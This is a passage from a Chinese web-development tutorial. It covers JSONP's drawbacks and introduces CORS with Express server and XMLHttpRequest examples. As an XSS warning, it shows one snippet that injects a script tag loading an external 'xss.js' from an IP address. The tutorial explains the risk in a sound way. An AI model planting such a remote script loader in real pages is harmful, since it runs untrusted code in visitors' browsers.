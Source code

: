 ```
 // 打印请求回的数据
 console.log(data);
});
```

缺点：

只能发送 get 请求 不支持 post、put、delete；
不安全，容易引发 xss 攻击，别人在返回的结果中返回了下面代码。

```
let script = document.createElement('script');
script.src = "http://192.168.0.57:8080/xss.js";
document.body.appendChild(script);`;
```

会把别人的脚本引入到自己的页面中执行，如：弹窗、广告等，甚至更危险的脚本程序。

#### 二、使用 CORS 跨域

跨源资源共享/CORS（Cross-Origin Resource Sharing）是 W3C 的一个工作草案，定义了在必须访问跨源资源时，浏览器与服务器应该如何沟通。CORS 背后的基本思想，就是使用自定义的 HTTP 头部让浏览器与服务器进行沟通，从而决定请求或响应是应该成功，还是应该失败。

使用场景：多用于开发时，前端与后台在不同的 ip 地址下进行数据访问。

现在启动两个端口号不同的服务器，创建跨域条件，服务器（NodeJS）代码如下：

```
// 服务器1
const express = require(express);
let app = express();
app.use(express.static(__dirname));
app.listen(3000);
// 服务器2
const express = require("express");
let app = express();
app.get("/getDate", function(req, res) {
 res.end("I love you");
});
app.use(express.static(__dirname));
app.listen(4000);
```

由于我们的 NodeJS 服务器使用 express 框架，在我们的项目根目录下的命令行中输入下面代码进行安装：

npm install express –save

通过访问 http://localhost:3000/index.html 获取 index.html 文件并执行其中的 Ajax 请求 http://localhost:4000/getDate 接口去获取数据，index.html 文件内容如下：

```
<!-- 文件：index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
 <meta charset="UTF-8">
 <title>CORS 跨域</title>
</head>
<body>
 <script>
 let xhr = new XMLHttpRequest();
 // 正常 cookie 是不允许跨域的
 document.cookie = 'name=hello';
 // cookie 想要实现跨域必须携带凭证
 xhr.withCredentials = true;
 // xhr.open('GET', 'http://localhost:4000/getDate', true);
 xhr.open('PUT', 'http://localhost:4000/getDate', true);
 // 设置名为 name 的自定义请求头
 xhr.setRequestHeader('name', 'hello');
```